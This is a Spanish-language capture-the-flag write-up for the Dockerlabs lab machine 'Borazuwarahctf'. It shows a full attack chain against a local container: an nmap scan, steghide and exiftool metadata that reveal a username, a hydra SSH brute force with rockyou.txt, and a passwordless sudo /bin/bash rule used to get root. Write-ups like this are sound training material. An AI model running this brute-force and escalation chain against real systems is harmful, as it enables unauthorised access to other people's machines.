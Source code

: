 # Máquina Borazuwarahctf
- Dificultad: muy fácil

## Escaneo con nmap
<p>Realizamos un escaneo de puertos, servicios y versiones con el siguiente comando.</p>

```
nmap -sCV -sS -n -Pn -p- 172.17.0.2

```

```
Nmap scan report for 172.17.0.2
Host is up (0.000019s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.2p1 Debian 2+deb12u2 (protocol 2.0)
| ssh-hostkey: 
|   256 3d:fd:d7:c8:17:97:f5:12:b1:f5:11:7d:af:88:06:fe (ECDSA)
|_  256 43:b3:ba:a9:32:c9:01:43:ee:62:d0:11:12:1d:5d:17 (ED25519)
80/tcp open  http    Apache httpd 2.4.59 ((Debian))
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: Apache/2.4.59 (Debian)
MAC Address: 02:42:AC:11:00:02 (Unknown)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel



```
<p>El servicio SSH está activo y el Apache está corriendo en el puerto 80, revisamos la página Web</p>

![captura-web](https://github.com/JavierKJ4/Dockerlabs/blob/main/recursos/Screenshot_2024-06-04_06_08_03.png)

<p>No encontramos nada con gobuster, asi que descargamos la imagen para probar esteganografía</p>

## Steghide

```
 steghide --extract -sf Untitled.jpeg

```

```
Enter passphrase: 
wrote extracted data to "secreto.txt".

```
<p>En la passphrase no escribimos nada y aparece un archivo "secreto.txt".</p>

```
cat secreto.txt

```

```
Sigue buscando, aquí no está to solución
aunque te dejo una pista....
sigue buscando en la imagen!!!

```
<p>Usamos exiftool para revisar los datos de la imagen.</p>


```
exiftool Untitled.jpeg

```

```
ExifTool Version Number         : 12.76
File Name                       : Untitled.jpeg
Directory                       : ../../..
File Size                       : 19 kB
File Modification Date/Time     : 2024:06:02 08:06:39-05:00
File Access Date/Time           : 2024:06:02 08:06:39-05:00
File Inode Change Date/Time     : 2024:06:02 08:06:39-05:00
File Permissions                : -rw-r--r--
File Type                       : JPEG
File Type Extension             : jpg
MIME Type                       : image/jpeg
JFIF Version                    : 1.01
Resolution Unit                 : None
X Resolution                    : 1
Y Resolution                    : 1
XMP Toolkit                     : Image::ExifTool 12.76
Description                     : ---------- User: borazuwarah ----------
Title                           : ---------- Password:  ----------
Image Width                     : 455
Image Height                    : 455
Encoding Process                : Baseline DCT, Huffman coding
Bits Per Sample                 : 8
Color Components                : 3
Y Cb Cr Sub Sampling            : YCbCr4:2:0 (2 2)
Image Size                      : 455x455
Megapixels                      : 0.207


```
<p>En la parte de descripción encontramos un usuario asi que probamos fuerza bruta al SSH con ese usuario.</p>

##Hydra

```
hydra -l borazuwarah -P /usr/share/wordlists/rockyou.txt  ssh://172.17.0.2

```

```
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2024-06-04 05:56:34
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking ssh://172.17.0.2:22/
[22][ssh] host: 172.17.0.2   login: borazuwarah   password: 123456
1 of 1 target successfully completed, 1 valid password found

```
<p>Ahora con el las credenciales borazuwarah:123456 nos conectamos por SSH.</p>

##SSH

```
ssh 172.17.0.2 -l borazuwarah

```
<p>Nos pide la contraceña, la escribimos y estamos dentro.</p>

```
The authenticity of host '172.17.0.2 (172.17.0.2)' can't be established.
ED25519 key fingerprint is SHA256:O4p1roi1VxgJcCkT8eG0qxAP8LkcGMNNNg1H/7HISvg.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '172.17.0.2' (ED25519) to the list of known hosts.
borazuwarah@172.17.0.2's password: 
Linux 38a19ca784fd 6.6.9-amd64 #1 SMP PREEMPT_DYNAMIC Kali 6.6.9-1kali1 (2024-01-08) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
borazuwarah@38a19ca784fd:~$

```
<p>Ejecutamos sudo -l para ver que podemos ejecutar como root</p>


```
borazuwarah@38a19ca784fd:~$ sudo -l

```

```
Matching Defaults entries for borazuwarah on 38a19ca784fd:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, use_pty

User borazuwarah may run the following commands on 38a19ca784fd:
    (ALL : ALL) ALL
    (ALL) NOPASSWD: /bin/bash

```

<p>Podemos ejecutar sin contrseña /bin/bash asi que lo ejecutamos y ya somos root.</p>

```
borazuwarah@38a19ca784fd:~$ sudo -u root /bin/bash

```

```
root@38a19ca784fd:/home/borazuwarah# whoami
root

```
